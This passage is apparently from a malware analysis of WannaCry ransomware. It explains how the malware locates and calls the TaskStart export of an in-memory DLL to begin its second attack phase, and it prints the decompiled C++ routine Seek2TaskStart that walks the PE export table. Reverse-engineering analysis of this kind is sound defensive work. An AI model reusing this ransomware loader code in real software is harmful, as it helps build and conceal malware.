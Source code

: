 Where ImageBase points to a buffer in memory, which is BaseAddress of a loaded Dll module.

After getting the CPeBuilder object, Wannacry uses the Seek2TaskStart method to locate the TaskStart function exported in the Dll and calls the function to actually start the second phase of the attack.

```C++
int __cdecl Seek2TaskStart(CPeBuilder *pPeBuilder, char *szTaskStart)
{
  void *ImageBase; 
  IMAGE_DATA_DIRECTORY *dd_export; 
  DWORD va; 
  unsigned int dwNumberOfNames;
  IMAGE_EXPORT_DIRECTORY *va_export; 
  DWORD Base; 
  DWORD funcOrdinal; 
  DWORD AddressOfNames; 
  DWORD AddressOfNameOrdinals; 
  DWORD nCount; 

  ImageBase = pPeBuilder->ImageBase;
  dd_export = pPeBuilder->PEHeader->OptionalHeader.DataDirectory;
  ImageBase = pPeBuilder->ImageBase;
  if ( !pPeBuilder->PEHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size )
    goto LABEL_10;
  va = dd_export->VirtualAddress;
  dwNumberOfNames = *(ImageBase + dd_export->VirtualAddress + 0x18);
  va_export = (ImageBase + va);
  if ( !dwNumberOfNames || !va_export->NumberOfFunctions )
    goto LABEL_10;
  if ( !HIWORD(szTaskStart) )
  {
    Base = va_export->Base;
    if ( szTaskStart >= Base )
    {
      funcOrdinal = szTaskStart - Base;
      goto LABEL_13;
    }
LABEL_10:
    SetLastError(ERROR_PROC_NOT_FOUND);
    return 0;
  }
  AddressOfNames = (ImageBase + va_export->AddressOfNames);
  AddressOfNameOrdinals = (ImageBase + va_export->AddressOfNameOrdinals);
  nCount = 0;
  if ( dwNumberOfNames <= 0 )
    goto LABEL_10;
  while ( stricmp(szTaskStart, ImageBase + *AddressOfNames) )
  {
    ++nCount;
    AddressOfNames += 4;
    AddressOfNameOrdinals += 2;
    if ( nCount >= va_export->NumberOfNames )
      goto LABEL_10;
  }
  funcOrdinal = *AddressOfNameOrdinals;
LABEL_13:
  if ( funcOrdinal > va_export->NumberOfFunctions )
    goto LABEL_10;
  return (ImageBase + *(ImageBase + 4 * funcOrdinal + va_export->AddressOfFunctions));
}
```

